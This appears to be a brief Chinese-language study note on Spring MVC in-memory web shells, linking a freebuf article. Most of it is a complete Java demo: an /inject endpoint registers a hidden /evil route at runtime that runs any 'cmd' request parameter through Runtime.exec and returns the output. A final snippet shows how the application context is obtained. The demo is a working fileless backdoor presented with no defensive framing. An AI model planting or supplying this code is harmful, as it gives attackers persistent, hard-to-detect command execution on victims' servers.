

### 链接

https://www.freebuf.com/vuls/346315.html

### demo

```java
package com.example.springdemo.EvilController;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;

@RestController
public class EvilController {
    @RequestMapping("/inject")
    public String inject() throws Exception{
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        Method method = InjectedController.class.getMethod("cmd");

        PatternsRequestCondition url = new PatternsRequestCondition("/evil");

        RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();

        RequestMappingInfo info = new RequestMappingInfo(url, condition, null, null, null, null, null);

        InjectedController injectedController = new InjectedController();

        requestMappingHandlerMapping.registerMapping(info, injectedController, method);

        return "Inject done";
    }

    @RestController
    public class InjectedController {
        public InjectedController(){
        }
        public String cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();

            InputStream is = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
            InputStreamReader isr = new InputStreamReader(is, "UTF-8");
            BufferedReader br = new BufferedReader(isr);
            String str = "";
            String line;

            while ((line = br.readLine())!=null){
                str += line;
            }
            is.close();
            br.close();

            return str;
        }
    }
}
```

截图：



### 获取webApplicationContext的方法

```
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```

